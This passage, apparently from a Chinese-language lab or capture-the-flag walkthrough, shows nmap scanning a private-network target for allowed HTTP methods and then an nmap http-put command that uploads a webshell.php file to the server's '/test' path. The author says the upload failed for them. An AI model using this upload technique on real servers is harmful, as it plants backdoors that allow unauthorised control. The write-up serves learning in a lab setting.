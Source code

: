 师傅们使用`nmap`进行了扫描，得知了put方法：

```shell
nmap --script http-methods --script-args http-methods.url-path='/test' 192.168.244.183
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402071320663.png" alt="image-20240205224037334" style="zoom:50%;" />

传入文件的时候可以采用：

```shell
nmap 192.168.244.183 -p 80 --script http-put --script-args http-put.url='/test/nmap_webshell.php',http-put.file='/home/kali/temp/webshell.php'
```

但是我这里失败了，不知道为啥：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402071320664.png" alt="image-20240205232539742" style="zoom:50%;" />

